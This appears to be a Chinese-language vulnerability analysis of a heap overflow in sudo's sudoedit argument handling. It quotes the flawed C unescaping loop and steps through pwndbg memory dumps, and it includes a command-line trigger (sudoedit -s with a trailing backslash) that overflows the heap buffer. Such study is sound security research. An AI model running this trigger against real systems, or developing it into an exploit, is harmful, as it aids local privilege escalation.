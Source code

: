 ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1612609779202-b62910de-501f-4832-80c8-eb6041671eb0.png)

执行的命令：gdb --args sudoedit -s '\' aabbccddeeffgghhiiggkkllmmnn

本意要写入：aabbccddeeffgghhiiggkkllmmnn

实际上写入：aabbccddeeffgghhiiggkkllmmnn()aabbccddeeffggiiggkkllmmnn()

```c
		for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
		    while (*from) {
			if (from[0] == '\\' && !isspace((unsigned char)from[1]))   
			    from++;
			*to++ = *from++;
		    }
		    *to++ = ' ';
		}
```

仔细分析一下这个代码，首先在进入循环之前将malloc的地址给了to，现在to=malloc(0x31)，然后将NewArgv + 1赋值到av中，现在av=NewArgv[1]；进入循环后，在处理NewArgv[1]=='\'时，from[0] 为 \ ，from[1] 为 \x00 ，会通过这个判断让 from++ ，然后后面会再次from++，这就导致了堆溢出。

不明白？调试一下：

> 以下的内存地址和上面的略有区别，因为我重新调试了，好像关了ALSR地址仍会变。
>

```c
##########################################################################
第一次for循环：
		#NewArgv[1]= "\+\x00",NewArgv[2]= "aabbccddeeffgghhiiggkkllmmnn",（步骤1）
		for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
            #进入for循环av =NewArgv[1]（步骤2）
            #from = *av（*av：\+\x00）（步骤3）
		    while (*from) { 
            #进入while循环（步骤4）
			if (from[0] == '\\' && !isspace((unsigned char)from[1]))
                ##若from[0]为\并且from[1]是NULL结束字符（不为空格），则进入此if语句（步骤5）
                #判断结果：真（步骤6）
			    from++;  #执行from++后此时指向NULL结束字符（步骤7）
			*to++ = *from++;
            #下一行from++指向下个字符串开头，若该字符串存在，则继续这个while循环
		    }
----------------------------------------------------------------------------
进入for循环后：
pwndbg> x/gx to
0x555555786530:	0x00007ffff79b5ca0
pwndbg> p *av
$20 = 0x7fffffffe78d "\\"
pwndbg> x/gx av
0x55555578e210:	0x00007fffffffe78d
pwndbg> x/gx NewArgv
0x55555578e208:	0x000055555556e09c
pwndbg> x/gx from
0x7fffffffe78d:	0x636362626161005c
pwndbg> p from[1]
$16 = 0 '\000'
pwndbg> p from[0]
$17 = 92 '\\'
pwndbg> p *to
$7 = -96 '\240'
pwndbg> 

*from不为空，进入while循环，判断if语句，此时from[0]=='\\',from[1]==NULL;
满足条件，进入if语句，执行from++，得到from==aabbccddeeffgghhiiggkkllmmnn
此时的from[1]==97（'a'），紧接着执行*to++ = *from++;，结果如下：
*to==92 '\\'，*from==97 'a'。
```
